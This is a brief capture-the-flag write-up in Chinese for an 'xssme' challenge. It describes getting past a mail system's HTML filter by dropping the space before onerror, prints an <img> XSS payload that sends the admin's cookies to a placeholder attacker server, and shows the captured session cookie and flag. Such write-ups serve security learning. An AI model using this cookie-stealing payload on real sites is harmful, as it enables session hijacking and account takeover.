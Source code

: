 ## xssme (100)
### solution
稍微試了一下可以發現是一個簡單的郵件系統，admin會閱讀所有郵件，因此試著在郵件中進行XSS。
而標題欄位會進行escape，無法有效攻擊，但內文是使用過濾方式，無法使用`<script>`、`<iframe>`，但可以用`<img>`
因此試著用`<img src="#" onerror=>`進行攻擊發現` onerror`也會過濾，但拿掉前面的空白即可，因此使用XSS發送admin的cookie到自己的server上。
```js
<img src="#"onerror=javascript:document.location="http://MY_IP/log.php?c="+document.cookie>
```
得到以下回應：
```
Array
(
    [c] => PHPSESSID=1oiprdg6u65httgspivmnpjfe6; FLAG_XSSME=FLAG{Sometimes, XSS can be critical vulnerability <script>alert(1)</script>}; FLAG_2=IN_THE_REDIS
)
```
